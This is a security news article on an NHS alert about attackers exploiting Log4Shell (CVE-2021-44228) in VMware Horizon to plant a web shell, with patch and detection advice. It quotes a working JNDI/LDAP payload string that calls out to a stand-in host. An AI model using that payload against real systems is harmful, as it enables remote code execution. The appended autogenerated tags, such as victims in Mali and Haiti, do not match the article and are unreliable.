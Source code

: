 # NHS warns of hackers exploiting Log4Shell in VMware Horizon
### UK's National Health Service (NHS) has published a cyber alert warning of an unknown threat group targeting VMware Horizon deployments with Log4Shell exploits.

## Information:
+ Source: Bleeping Computer
+ Link: https://www.bleepingcomputer.com/news/security/nhs-warns-of-hackers-exploiting-log4shell-in-vmware-horizon/
+ Date: 2022-01-07T09:29:26-05:00
+ Author: Bill Toulas


## Article:
![Article Image](https://www.bleepstatic.com/content/hl-images/2021/12/13/Log4Shell.jpg)

![Log4shell](https://www.bleepstatic.com/content/hl-images/2021/12/13/Log4Shell.jpg?rand=192137341)


UK's National Health Service (NHS) has published a cyber alert warning of an unknown threat group targeting VMware Horizon deployments with Log4Shell exploits.


Log4Shell is an exploit for [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), a critical arbitrary remote code execution flaw in the Apache Log4j 2.14, which has been under active and [high-volume exploitation](https://www.bleepingcomputer.com/news/security/ftc-warns-companies-to-secure-consumer-data-from-log4j-attacks/) since December 2021.


Apache addressed the above and four more vulnerabilities via subsequent security updates, and [Log4j version 2.17.1](https://www.bleepingcomputer.com/news/security/log4j-2171-out-now-fixes-new-remote-code-execution-bug/) is now considered adequately secure.


Targeting Apache Tomcat in VMware Horizon
-----------------------------------------


According to the NHS notice, the actor is leveraging the exploit to achieve remote code execution on vulnerable VMware Horizon deployments on public infrastructure.


"The attack likely consists of a reconnaissance phase, where the attacker uses the Java Naming and Directory InterfaceTM (JNDI) via Log4Shell payloads to call back to malicious infrastructure," [explains the alert](https://digital.nhs.uk/cyber-alerts/2022/cc-4002).


"Once a weakness has been identified, the attack then uses the Lightweight Directory Access Protocol (LDAP) to retrieve and execute a malicious Java class file that injects a web shell into the VM Blast Secure Gateway service."


"The web shell can then be used by an attacker to carry out a number of malicious activities such as deploying additional malicious software, data exfiltration, or deployment of ransomware."


The actor is taking advantage of the presence of the Apache Tomcat service embedded within VMware Horizon, which is vulnerable to Log4Shell.


The exploitation begins with the simple and widely used "${jndi:ldap://example.com}" payload and spawns the following PowerShell command from Tomcat.



![PowerShell command spawned by Tomcat](https://www.bleepstatic.com/images/news/u/1220909/Code%20and%20Details/powershell(1).png)**PowerShell command spawned by Tomcat**  
*Source: NHS*
This command invokes a win32 service to get a list of 'VMBlastSG' service names, retrieve paths, modify 'absg-worker.js' to drop a listener, and then restart the service to activate the implant.


The listener is then responsible for executing arbitrary commands received via HTTP/HTTPS as header objects with a hardcoded string.


At this point, the actor has established persistent and stable communication with the C2 server and can perform data exfiltration, command execution, or deploy ransomware.



![Attack flow diagram](https://www.bleepstatic.com/images/news/u/1220909/Diagrams/attacker-diagram.png)**Attack flow diagram**  
*Source: NHS*
VMware Horizon is not the only VMware product targeted by threat actors using the Log4j vulnerability.


The [Conti ransomware operation is also using Log4Shell](https://www.bleepingcomputer.com/news/security/conti-ransomware-uses-log4j-bug-to-hack-vmware-vcenter-servers/) to spread laterally to vulnerable VMware vCenter servers to more easily encrypt virtual machines.


Security updates are available
------------------------------


VMware released [a security update](http://www.vmware.com/security/advisories/VMSA-2021-0028.html) for Horizon and other products last month, fixing CVE-2021-44228 and CVE-2021-45046 with versions 2111, 7.13.1, and 7.10.3


As such, all VMware Horizon admins are urged to apply the security updates as soon as possible.


NHS's report also highlights the following three signs of active exploitation on vulnerable systems:


1. Evidence of ws\_TomcatService.exe spawning abnormal processes
2. Any powershell.exe processes containing 'VMBlastSG' in the command line
3. File modifications to '…\VMware\VMware View\Server\appblastgateway\lib\absg-worker.js' - This file is generally overwritten during upgrades and not modified





## Tags:

#### Action:
[[action.malware.name=at]] [[action.malware.name=at]] [[action.malware.name=Conti]] [[action.malware.name=Tor]]

#### Location:
[[victim.country.name=Mali]] [[victim.continent.name=Africa]] [[victim.city.name=]] [[victim.country.name=Haiti]] [[victim.continent.name=North and Central America]]

### Autogenerated Tags:
[[Vmware]] [[Log4shell]] [[Nhs]] [[Log4j]] [[Ransomware]] [[Bleeping Computer]]
#### urls
ldap://example.com}
#### CVE's
[[CVE-2021-44228]] [[CVE-2021-45046]]

